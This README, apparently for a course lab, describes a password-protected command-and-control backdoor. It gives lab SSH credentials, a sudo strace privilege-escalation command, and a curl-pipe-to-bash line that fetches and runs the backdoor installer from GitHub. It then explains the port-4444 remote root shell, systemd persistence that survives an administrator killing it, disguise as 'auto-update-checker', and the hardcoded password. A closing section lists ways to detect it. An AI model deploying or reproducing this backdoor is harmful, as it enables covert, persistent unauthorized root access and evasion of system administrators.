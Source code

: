 # Command and Control

A simple backdoor that provides the user persistent password-protected access to a previously compromised machine.

## Installing and running the server script on the week4 machine

Logging into the week4 machine:
ssh into the week4 machine using this command:

```bash
ssh user@10.0.2.5
```

The password for the machine is:
	hill

To escalate privileges use this command:
sudo strace -o /dev/null /bin/bash
 
then type ‘cd’ in order to change into the root directory
Installing and running the server script on the week4 machine:
Run the following command which will install the backdoor to the machine. Only 2 files will be installed: the script to run the server from GitHub directly, and the systemd service to ensure persistence (explained more in a further section).

```bash
curl -s https://raw.githubusercontent.com/athulnair02/command-and-control/main/install_backdoor | bash
```

## Installing and running the client script on your local machine

In any spot on the attacking machine add the file:

client.py from the GitHub

Once you’ve done this, you can run the client script at any time using:

```bash
python client.py
```	
or

```bash	
python3 client.py
```

## How the backdoor works

How our backdoor addresses the 5 requirements:
Explanation of how our backdoor provides remote shell access:
The backdoor is essentially a shell in which the target machine reveals port 4444/tcp in the firewall and listens for a connection from the network. The python script on the target side is waiting for a connection, and once accepted and authorized through a password, it receives commands from the attacking machine through TCP and executes them through a subprocess. The output from the command is sent back to the attacking machine through the established connection.
Persistence:
The backdoor maintains persistence using a systemd service that ensures it is always running on the machine. It is the service that initially starts the script to open the backdoor when it is first installed and every time the script ends (either successful, on error, etc.) it will be restarted with a different PID. This way, if there is any unforeseen error in the code, it will not prevent the backdoor from being closed. In addition, if a sysadmin kills the program when finding it suspicious (while looking at top or task manager), it will start again, opening the backdoor once again. Another persistence action taken was having a timeout for the initial backdoor connection. If the backdoor does not have a connection in two minutes, it throws an error and ends the program so that it restarts and ensures the firewall was not closed by the sysadmin. If the firewall is closed, then no connection can be made to the backdoor. This timeout can be changed since the code is directly run off of Github, meaning any push to the main branch will update the backdoor when it is run through the curl command piped into python command.
Configuration to get commands from: 
The only configuration needed is to determine the IP address of the target machine (through nmap or any other means) and change REMOTE_HOST in client.py to that address. It is default set to '10.0.2.5'.
Authentication:
We created a password ( c0d3m@nk3y ) and hashed it using hash(password) in python. This hash is then stored on the server/target machine. We then have client.py ask the user to input a password as the first message to the target and it is then sent to the server. There, the server hashes it and checks it against the known hash, which once confirmed, allows the user remote root shell access.
Hiding from detection: 
There are only 2 files added to the machine: one that is the backdoor, and the other to ensure it keeps running. Both files are using a less suspecting name (auto-update-checker) that creates the illusion of a routine, ordinary task for the sysadmin. The actual script that is run is in the root’s home directory as a hidden file (it can easily be placed elsewhere more secretive). There is no cronjob running so a sysadmin cannot find the script running there (where other common repeating programs may be). In addition, the service is buried deep with other services so it will be difficult for a sysadmin to search through all services to determine which one is malicious.
How our backdoor can be detected:
If the sysadmin checks the hidden files in the root home directory, they can find a presence of a file they did not put. If they look past the unsuspecting name and read the script that is running, they will find the backdoor. 
If the sysadmin looks at what ports are open on the firewall using firewall-cmd –list-ports, they will see that 4444/tcp is open and will know something odd is in place keeping the port open. If they use further investigation, they may find the program using the port if they install lsof and execute lsof -i:4444. 


